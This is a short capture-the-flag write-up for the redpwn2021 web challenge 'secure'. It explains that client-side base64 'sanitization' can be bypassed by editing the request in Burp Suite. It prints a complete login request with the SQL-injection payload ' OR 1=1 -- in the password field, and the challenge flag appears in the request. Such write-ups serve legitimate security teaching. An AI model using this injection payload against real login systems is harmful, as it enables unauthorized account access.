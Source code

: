 # redpwn2021


# secure
**Category:** web  
**Description:** 
Just learned about encryption—now, my website is unhackable!

secure.mc.ax

# solution
This problem is a simple sql injection.  When looking at the javascript, you can find that the input is 'sanitized' client side via base 64 encoding, thereby preventing any direct sql injection through the input boxes.  However, this can be very easily bypassed by using burp suite.  Burp allows you to directly modify the packet sent, so you can change the base64 encoded password in the request sent to the sql injection to bypass it and get the flag.

<br>

```
My Example Burp Request:
POST /login HTTP/1.1
Host: secure.mc.ax
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: https://secure.mc.ax
Connection: close
Referer: https://secure.mc.ax/?message=flag%7B50m37h1n6_50m37h1n6_cl13n7_n07_600d%7D
Upgrade-Insecure-Requests: 1

username=YWRtaW4%3D&password=' OR 1=1 -- 
```
<br>
YWRtaW4%3D is base64 & url encoded 'admin'
